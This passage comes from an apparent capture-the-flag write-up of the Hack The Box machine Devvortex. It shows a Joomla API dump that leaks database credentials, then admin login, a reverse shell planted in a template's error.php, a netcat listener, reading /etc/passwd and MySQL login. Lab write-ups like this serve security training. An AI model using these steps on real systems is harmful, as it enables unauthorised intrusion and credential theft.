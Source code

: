 ```bash
.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"[REDACTED]","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

and we find password for `lewis`

## Joomla Admin

logging in with user,pass we find the access to admin page
now lets get a revshell

## mysql config

- we come to know theres mysql running on locahost with lewis, itll help later
- by navigating to system -> global configuration -> server
  ![image](/assets/htb-devvortex/Pasted_image_20231127071137.png)

## revshell steps

![image](/assets/htb-devvortex/Pasted_image_20231127070753.png)

- go to system -> site templates
- index.php wasnt writable it gave us permission error that its only readable
- we find the template name is `cassiopeia` and after pasting our payload in error.php
  ![image](/assets/htb-devvortex/Pasted_image_20231127070835.png)
- paste your reverse shell payload
- visit `http://dev.devvortex.htb/templates/cassiopeia/error.php` after starting a listener `nc -lvnp 9001`
- we get a shell as `www-data`

# www-data

- from /etc/passwd we find `root,logan` are user accounts with bash
- from the lewis username and password we log in to myqsl

```bash
mysql -u lewis -p
```
